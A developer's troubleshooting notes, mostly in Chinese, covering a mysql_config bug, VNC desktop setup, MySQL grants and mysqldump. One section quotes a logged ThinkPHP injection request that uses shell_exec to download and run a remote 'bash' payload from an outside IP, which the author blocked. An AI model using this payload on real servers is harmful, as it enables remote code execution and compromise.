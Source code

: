 	        --variable=VAR   VAR is one of:
	                pkgincludedir [/usr/local/Cellar/mysql-connector-c/6.1.10/include]
	                pkglibdir     [/usr/local/Cellar/mysql-connector-c/6.1.10/lib]
	                plugindir     [/usr/local/Cellar/mysql-connector-c/6.1.10/lib/plugin]
	
	`--libs` and `--libs_r` should have ` -lmysqlclient -lssl -lcrypto`, but it only have `-l`.
	
	How to repeat:
	1. Install MySQL Connector/C 6.1.10
	2. run mysql_config

### vncserver配置问题
> 由于把开发环境挪到阿里云了，在没有修改allow_host情况下，只有本机才能通过浏览器访问，所以必须配置一个vncserver方便我通过服务器桌面访问浏览器进行调试。通过yum groupinstall 好了gnome-desktop, vncserver, 发现通过vncview访问时候能连上，但是无法显示画面,黑屏。最后通过如下方式解决，具体也不知道到底哪些是必须步骤，但是最后一步vim /lib/systemd/system vncserver@.service之后就好了：

	1. yum groupinstall Xfce
	2. vim ~/.vnc/xstartup 修改为如下：
			#!/bin/sh
			export XKL_XMODMAL_DISABLE=1
			unset SESSION_MANAGER
			#unset DBUS_SESSION_BUS_ADDRESS
			#exec /etc/X11/xinit/xinitrc
			#gnome-session &
			
			xfce4-panel &
			xfsettingsd &
			xfwm4 &
			xfdesktop &
			pcmanfm &
			xfce4terminal &

	3.vim /lib/systemd/system/vncserver@.service 添加如下两行：
			VNCSERVERS="1:root"
			VNCSERVERARGS[1]="-geometry 800x600"


### 服务器遭受攻击
>  服务器招受到url注入攻击最后采取封禁了所有陌生的接入ip,以及下面这个下载地址的ip,同时更换了端口

	[23/Dec/2018 22:21:29] "GET /public/index.php?s=/Index/%09hink%07pp/
	invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1]
	[]=curl%20busybox%20wget%20http://142.93.51.155/bash;%20curl%20-O%20http://142.93.51.155/bash;
	%20chmod%20777%20bash;%20./thinkphp;%20rm%20-rf%20bash HTTP/1.1" 404 2346

	iptables -I INPUT -s X.X.X.X -j DROP


### 换成私网ip之后本机无法访问数据库，只有127可以访问，mysql的user表设置问题

>  setting.py中把databse default的host改为服务器小网ip，导致mysql连接不上，最后定位为填小网ip时候，登陆的时候，登陆名为用户名@“host主机名字”，但是由于这个’用户名@host主机名字‘并没有设置mysql密码，但是django的配置中填写了密码，导致登陆不了，最终修改mysql的user表之后，登陆ok

	GRANT ALL PRIVILEGES ON *.* TO '用户名字'@'host主机名字' IDENTIFIED BY '用户密码';

### 数据库导出到不同名字的数据库

>将开发环境和生产环境分离，想着数据库直接用之前的，采用mysqldump命令 复制对应database,然后到开发环境的数据库中source对应的数据。

	mysqldump -uroot -pxxxxx 数据库名 > xxx.sql  

> 这样子不仅复制了表的结构，还复制其中数据， 如果只想要表的结构

	 mysqldump -uroot -pxxxx -d 数据库名 > xxx.sql

> 进入开发环境mysql
	
	source xxx.sql;

>或者执行下面的命令
